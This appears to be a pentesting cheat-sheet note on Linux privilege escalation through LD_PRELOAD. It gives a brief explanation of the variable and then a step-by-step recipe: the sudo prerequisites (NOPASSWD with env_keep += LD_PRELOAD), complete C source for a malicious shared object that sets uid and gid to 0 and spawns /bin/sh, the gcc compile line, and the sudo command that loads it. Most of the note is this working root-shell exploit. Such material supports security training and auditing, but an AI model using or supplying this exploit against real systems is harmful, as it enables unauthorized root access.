 ## What is LD_PRELOAD?

LD_PRELOAD is an environment variable in Linux that specifies a shared library to be loaded before any other libraries. It is used to override functions in the default libraries with custom implementations.

## LD_PRELOAD vs /etc/ld.so.preload 
- `/etc/ld.so.preload` is a system-wide configuration file (root permissions required) that applies to all processes and affects the entire system.   
- `LD_PRELOAD`, on the other hand, is an environment variable that allows individual users to specify libraries to be preloaded for a specific executable or command on a per-process basis. Therefore, you don’t need to be root to use it.   
>Libraries defined by LD_PRELOAD are loaded prior to those in /etc/ld.so.preload. 

## How to ?
Pre-requisites:  

- [x] NOPASSWD  
- [x] env_keep += LD_PRELOAD  

Search for writable shared objects file
```
ldd <BINARY>
```
Create malicious `.so`
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
 unsetenv("LD_PRELOAD");
 setgid(0);
 setuid(0);
 system("/bin/sh");
}
```
Compile `.so`
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
Execute any binary with the LD_PRELOAD
```
sudo LD_PRELOAD=<PATH_TO_.so_FILE> <PROGRAM>
sudo LD_PRELOAD=/tmp/shell.so find
```
